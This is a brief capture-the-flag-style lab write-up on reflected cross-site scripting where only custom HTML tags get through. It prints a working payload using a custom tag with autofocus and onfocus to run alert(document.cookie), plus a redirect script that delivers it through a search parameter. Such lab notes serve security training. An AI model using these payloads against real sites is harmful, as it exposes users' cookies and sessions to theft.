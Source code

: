 # Practitioner Lab 67: Reflected XSS into HTML context with all tags blocked except custom ones

---

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts `document.cookie`

I went into the xss cheat, and tried to find a no interaction payload that would work on my browser with custom tags. 

```
<xss autofocus tabindex=1 onfocus=alert(1)></xss>
```

I found this which did work and used it.

I used the 

```
<script>
location= httpsite/?search=<xss autofocus tabindex=1 onfocus=alert(document.cookie)></xss>
</script>
```

This solved the lab.